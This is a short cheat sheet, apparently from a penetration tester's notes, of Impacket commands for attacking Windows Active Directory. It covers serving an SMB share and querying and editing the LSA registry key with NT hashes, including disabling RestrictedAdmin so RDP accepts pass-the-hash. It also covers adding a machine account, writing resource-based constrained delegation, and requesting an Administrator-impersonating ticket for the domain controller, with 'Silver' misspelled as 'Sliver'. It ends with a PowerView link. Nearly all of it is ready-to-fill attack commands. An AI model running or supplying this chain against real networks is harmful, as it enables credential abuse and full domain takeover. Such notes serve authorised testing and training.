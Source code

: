 ## impacket smbserver
```
impacket-smbserver share . -smb2support
```

## impacket reg query example
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```

## impacket reg add example (Allow rdp connection without password)
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```

##  impacket reg del example
```
impacket-reg <domain>/<username>@<ip> -hashes ':<nthath>' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'
```

## impacket add a computer
```
addcomputer.py -computer-name '<computername>$' -computer-pass '<computer_password>' -dc-host <dc_ip> '<domain>/<username>:>user_password'
```

## impacket add rbcd from X (new_computer) to constrained (target_computer)
```
rbcd.py -delegate-from '<new_computer>$' -delegate-to '<target_computer>$' -dc-ip <dc_ip> -action 'write' -hashes ':<new_computer_owner_nthash' <domain>/'<target_computer>$'
```

## impacket Sliver Ticket for DC
```
getST.py -self -impersonate "Administrator" -altservice "cifs/<dc_hostname>" -k -no-pass -dc-ip <dc_ip> <domain>/'<dc_hostname>$'

export KRB5CCNAME=<ticket_from_output>.ccache
```



# PowerView
https://powersploit.readthedocs.io/en/stable/Recon/README/
